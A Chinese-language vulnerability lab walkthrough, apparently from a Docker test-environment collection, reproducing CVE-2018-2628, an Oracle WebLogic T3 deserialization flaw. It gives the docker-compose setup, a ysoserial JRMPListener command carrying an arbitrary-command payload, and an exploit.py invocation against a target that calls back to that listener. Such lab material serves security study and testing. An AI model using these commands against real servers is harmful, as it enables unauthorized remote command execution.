 # Weblogic WLS Core Components 反序列化命令执行漏洞（CVE-2018-2628）

Oracle 2018年4月补丁中，修复了Weblogic Server WLS Core Components中出现的一个反序列化漏洞（CVE-2018-2628），该漏洞通过t3协议触发，可导致未授权的用户在远程服务器执行任意命令。

参考链接：

- http://www.oracle.com/technetwork/security-advisory/cpuapr2018-3678067.html
- https://github.com/brianwrf/CVE-2018-2628
- http://mp.weixin.qq.com/s/nYY4zg2m2xsqT0GXa9pMGA

## 漏洞环境

执行如下命令启动Weblogic 10.3.6.0：

```
docker-compose up -d
```

等待环境启动（环境差异，有的机器可能等待的时间比较久），访问`http://your-ip:7001/console`，初始化整个环境。

## 漏洞复现

参考[brianwrf/CVE-2018-2628](https://github.com/brianwrf/CVE-2018-2628)，首先下载ysoserial，并启动一个JRMP Server：

```
java -cp ysoserial-0.0.6-SNAPSHOT-BETA-all.jar ysoserial.exploit.JRMPListener [listen port] CommonsCollections1 [command]
```

其中，`[command]`即为我想执行的命令，而`[listen port]`是JRMP Server监听的端口。

然后，使用[exploit.py](https://www.exploit-db.com/exploits/44553/)脚本，向目标Weblogic（`http://your-ip:7001`）发送数据包：

```
python exploit.py [victim ip] [victim port] [path to ysoserial] [JRMPListener ip] [JRMPListener port] [JRMPClient]
```

其中，`[victim ip]`和`[victim port]`是目标weblogic的IP和端口，`[path to ysoserial]`是本地ysoserial的路径，`[JRMPListener ip]`和`[JRMPListener port]`第一步中启动JRMP Server的IP地址和端口。`[JRMPClient]`是执行JRMPClient的类，可选的值是`JRMPClient`或`JRMPClient2`。

exploit.py执行完成后，执行`docker-compose exec weblogic bash`进入容器中，可见/tmp/success已成功创建。

![](1.png)
